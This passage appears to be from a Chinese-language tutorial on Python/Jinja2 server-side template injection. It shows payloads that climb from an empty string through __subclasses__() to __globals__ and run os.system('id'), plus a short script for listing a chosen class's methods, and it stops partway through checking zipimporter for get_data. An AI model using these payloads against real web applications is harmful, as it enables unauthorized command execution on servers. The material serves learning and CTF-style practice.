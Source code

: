 ```
{{ ''.__class__.__base__.__subclasses__()[X].__init__.__globals__ }}
```

- 返回的结果会显示 `__init__` 方法的全局命名空间。

 **示例 2：调用 `os.system`**

python

复制

```
{{ ''.__class__.__base__.__subclasses__()[X].__init__.__globals__['os'].system('id') }}
```

- 通过 `__globals__` 访问 `os` 模块，并调用 `system` 方法执行系统命令。

------

6. **自动化工具**

手动查找方法可能比较繁琐，可以使用自动化工具或脚本来查找目标方法。

 **示例脚本**

python

复制

```
# 查找目标类的方法
target_class = ''.__class__.__base__.__subclasses__()[X]
for attr in dir(target_class):
    print(attr)
```



**有时选中一个可用的类，怎么知道其中有没有某一个方法，有下面办法**：（这里以找`get_data`方法为例）

​	1. **查阅Python官方文档**

- Python官方文档提供了所有标准库类的详细说明，包括类的方法和属性。

- 例如，`zipimport.zipimporter`类的文档可以在[Python官方文档](https://docs.python.org/3/library/zipimport.html)中找到，其中明确提到了`get_data`方法。

	2. **使用Python交互式环境**

	

	在本地Python环境中，可以通过交互式命令行（如`python`或`ipython`）动态检查类的属性和方法。

	**步骤 1：导入目标类**

	python

	复制

	```
	from zipimport import zipimporter
	```

	 **步骤 2：检查类的方法**
